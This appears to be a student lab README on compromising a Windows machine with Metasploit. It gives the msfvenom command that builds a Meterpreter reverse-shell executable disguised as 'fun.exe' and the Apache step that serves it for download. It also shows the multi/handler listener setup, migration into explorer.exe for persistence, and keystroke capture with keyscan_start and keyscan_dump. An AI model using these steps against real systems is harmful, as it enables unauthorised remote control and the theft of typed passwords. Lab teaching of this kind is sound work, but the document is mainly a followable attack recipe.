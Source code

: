 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

### OUTPUT:

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/2d80e84f-792a-464e-bec1-1889b94a2cbf)

Create a malicious executable file fun.exe using msfvenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/827c4167-8dd5-4c85-9e1d-9055c821c113)

copy the fun.exe into the apache /var/www/html folder 

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/382438be-c5da-4780-b756-e64087e939e3)

Start apache server sudo systemctl apache2 start

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/eea3b465-5526-484b-9965-ba18231cc749)

Check the status of apache2

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/76e3a5b5-e1fb-4326-a364-f4760cbca773)

Invoke msfconsole:

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/42c9c42b-ecfe-45d6-9c09-2da05406b031)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![Screenshot 2024-05-08 222950](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/a25d360d-4ef3-440e-905c-2692d78c7bc6)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/f4fbb15f-ca2f-41ec-87d4-16934c51f3ca)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.4/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/44e8039f-7c54-4cb8-a0f2-4097a472f446)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/b7fcb83e-5797-458c-b193-0b2b8aa14ebb)

On kali give the command exploit

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/a0ed89f3-e139-4076-a88e-636cfdd2f433)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/dc36eee9-08a5-4482-86be-7f8324eabeb7)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/f592a157-172f-4382-8b80-a010700ff0cf)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump Shows the keystrokes captured so far 

![image](https://github.com/Vanitha-SM/Compromising-windows-using-Metasploit/assets/119557985/da2ac21a-a723-462f-b98a-3b02688497a7)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
